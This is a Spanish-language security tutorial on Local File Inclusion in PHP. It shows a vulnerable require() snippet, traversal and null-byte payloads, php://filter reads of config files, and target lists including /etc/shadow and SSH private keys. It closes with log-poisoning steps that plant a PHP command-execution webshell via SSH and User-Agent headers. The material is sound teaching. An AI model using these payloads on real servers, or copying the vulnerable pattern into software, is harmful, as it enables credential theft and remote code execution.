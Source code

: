 # LFI - Local File Inclusion

# Local File Inclusion (LFI)

LFI, (Local File Inclusión) consiste en acceder a archivos no autorizados de la máquina victima. Esta vulnerabilidad le permite al atacante obtener acceso a archivos confidenciales en el servidor y también podría conducir a obtener un shell.

## ¿Como funciona?

La vulnerabilidad ocurre cuando el usuario entra a páginas que cargan contenido de archivos y no está **sanitizada**. 

LFI es particularmente común en sitios php.

Aquí mostramos un ejemplo de código php vulnerable a LFI. Como se puede ver, simplemente pasamos el parámetro page con el nombre de la página a cargar y no hay ningún tipo de control. Entonces, podemos  agregar la ruta de cualquier archivo.

```php
$file = $_GET['page'];
require($file);
```

Podemos también usar técnicas de **Directory Path TRaversal**.

```
http://example.com/page=../../../../../../etc/passwd
```


## Omitir el agregado de .php u otras extensiones.

Es muy común agregar la extensión `php` en la propia programación:

```php
$file = $_GET['page'];
require($file . ".php");
```

Al agregar el programa la extensión, si queremos buscar `/etc/passwd` el programa buscará `/etc/passwd.php`. Para solventar este problema podemos usar la técnica del byte nulo que consiste en añadir `%00` al final.

```
http://example.com/page=../../../../../../etc/passwd%00
```

Otra forma de solventar  este problema es simplemente agregar un signo de interrogación al final. De esta forma, todo lo que hay posterior al interrogante lo interpreta la aplicación como parámetro.

```
http://ejemplo.com/page=../../../../../../etc/passwd?
```

## Omitir la ejecución de php

Con LFI podemos leer archivos de texto, `*.txt` fácilmente, pero tenemos un problema si queremos leer archivos `php`.

El problema es que los ejecuta. Imaginemos que sabemos por **fuzzing** que hay un fichero llamado `config.php`. Normalmente en este archivo está la conexión a la base de datos con el usuario y la contraseña de base de datos.

Si ponemos `http://example.com/index.php?page=config.php` nos aparece una página en blanco ya que el código PHP se ha ejecutado. La forma de solventar este problema es utilizar **wrappers PHP**.


Este ejemplo nos devuelve el contenido en `base 64` del fichero indicado utilizando el wrapper `php://filter`.
```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=config.php
```

De forma que luego nosotros podremos decodificarlo en un terminal:

```bash
echo cadenabase64 | base64 -d > config.php
```


## LFI en Linux

### Trucos

**Descargar archivos de configuración en un formato de estilo agradable

Leer archivos directamente en el navegador puede ser muy tedioso. Una forma de hacerlo mas agradable  es leer los archivos desde el terminal. Usamos para ello `curl`:

```bash

curl -s http://example.com/gallery.php?page=/etc/passwd 

```

Ahi que tener en cuenta si tenemos que mandar cooky, si hay que autenticarse primero, ....

### Archivos importantes


Se listan a continuación los archivos mas importantes a visualizar en sistemas Linux:

```
/etc/issue (Mensaje que se escribe antes del inicio de sesión)
/etc/motd (Mensaje del contenido del banner del día. Puede contener información sobre los propietarios del sistema o el uso del sistema).
/etc/passwd 
/etc/group 
/etc/resolv.conf 
/etc/shadow
/home/[USUARIO]/.bash_history o .profile
~/.bash_history o .profile
$USER/.bash_history o .profile
/root/.bash_history o .profile
/etc/mtab  
/etc/inetd.conf  
/var/log/dmessage
/etc/sudoers
/etc/crontab
```

**Ficheros de servidor Web**

```
# Normalmente en la ruta de la aplicación web
.htaccess
config.php
```

**SSH**

```
authorized_keys
id_rsa
id_rsa.keystore
id_rsa.pub
known_hosts
```

**Logs**

```
/etc/httpd/logs/acces_log 
/etc/httpd/logs/error_log 
/var/www/logs/access_log 
/var/www/logs/access.log 
/usr/local/apache/logs/access_ log 
/usr/local/apache/logs/access. log 
/var/log/apache/access_log 
/var/log/apache2/access_log 
/var/log/apache/access.log 
/var/log/apache2/access.log
/var/log/access_log
```


**Ficheros de procesos**

En Linux, la ruta `/proc` incluye un directorio para cada proceso en ejecución, incluidos los procesos del kernel, en directorios denominados /proc/PID, donde PID es el número de proceso. Cada directorio contiene información sobre un proceso, que incluye: `/proc/PID/cmdline`, el comando que originalmente inició el proceso".

```
/proc/sched_debug # Se puede usar para ver qué procesos se están ejecutando en la máquina
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/net/fib_trie
/proc/version
/proc/self/environ
```

## Local File Inclusion (LFI) a Remote Code Execution (RCE)

Existen varias técnicas para intentar ejecución remota de comandos desde una LFI.

### Log Poisoning

También llamado envenenamiento del log. Si tenemos acceso a archivos de log del sistema y el servidor ejecuta `php` podríamos ejecutar comandos si consiguiéramos introducir php en dichos log.

**Log poisoning SSH**

Tenemos acceso al fichero de log del servicio SSH porque este está activo. Podríamos verlo con esta ruta de ejemplo.

http://ejemplo.com?page=../../../../../../var/log/access.log

Podemos intentar introducir código en access.log intentando una conexión ssh con un payload. Se entiende que ssh está activo.

```bash
ssh "<?php system($_GET['cmd']); ?>"@ipvictima
```

Ponemos 3 veces una password para que falle. Quedará traza en access.log por lo que podremos ejecutar comandos:

http://ejemplo.com?page=../../../../../../var/log/access.log&cmd=whoami

**Log poisoning Apache**

Si se trata de un servidor apache con LFI tendríamos que poder ver el fichero `/var/log/apache2/access.log`.

Entonces solo tendríamos que interceptar una petición con **BurpSuite** y modificar la cabecera **User Agent** con un payload:

```
GET /index.php?page=<log-file>
Host: <target>
User-Agent: <?php system($_GET['cmd']); ?>
```

Y lo mismo:

http://ejemplo.com?page=../../../../../../var/log/apache2/access.log&cmd=whoami
